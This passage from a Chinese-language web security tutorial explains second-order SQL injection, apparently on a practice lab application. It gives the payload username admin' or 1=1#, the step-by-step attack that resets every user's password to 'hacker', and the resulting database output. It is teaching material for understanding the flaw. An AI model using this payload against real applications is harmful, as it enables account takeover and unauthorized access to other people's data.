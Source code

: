 可以看到，从数据库取出来的用户名并没有转义，而我们又可以向数据库插入可控的用户名，即输入的用户名第一次被转义（非过滤），但拿出来使用时并未做再转义，这种**写数据时转义，读数据时又未转义，造成了二次注入漏洞的发生**。如果第一次存储时直接将恶意字符过滤掉的话，那第二次使用就没有问题。

因此，我们可以采用如下的攻击步骤。

（1）注册一个专门用来攻击的用户名，比如 admin' or 1=1#，密码为 test。

![Drawing 3.png](https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7uyADPwTAAAt1pr_DYg213.png)  
图 4：注册新的用户名

（2）登录新注册的账号。

![Drawing 4.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7vSAQ8bBAAAv5Nno1cw204.png)  
图 5：登录新账号

（3）修改上面注册的用户密码为 hacker。

![Drawing 5.png](https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7vmAOmU8AABWHp3fjoI705.png)  
图 6：修改密码

（4）最终用户名 admin' or 1=1# 被注入 SQL 执行，导致所有用户密码都被修改为 hacker。

```sql
mysql> select * from users;
+----+----------------+----------+
| id | username       | password |
+----+----------------+----------+
|  1 | Dumb           | hacker   |
|  2 | Angelina       | hacker   |
|  3 | Dummy          | hacker   |
|  4 | secure         | hacker   |
|  5 | stupid         | hacker   |
|  6 | superman       | hacker   |
|  7 | batman         | hacker   |
|  8 | admin          | hacker   |
|  9 | admin1         | hacker   |
| 10 | admin2         | hacker   |
| 11 | admin3         | hacker   |
| 12 | dhakkan        | hacker   |
| 14 | admin4         | hacker   |
| 15 | 1              | hacker   |
| 17 | admin' or 1=1# | hacker   |
+----+----------------+----------+
15 rows in set (0.00 sec)
```

（5）尝试用密码 hacker 登录账号 admin，如下所示，登录成功！

![Drawing 6.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7wKAQr6TAAE5rTn8WyU344.png)  
图 7： 登录成功

你看，从前面一步步地寻找漏洞，到发现 SQL 注入漏洞，并成功利用漏洞登录账号，哪怕不知道正确的密码是什么，也可以登录，这正是 SQL 注入神奇的地方所在。

### 手工注入
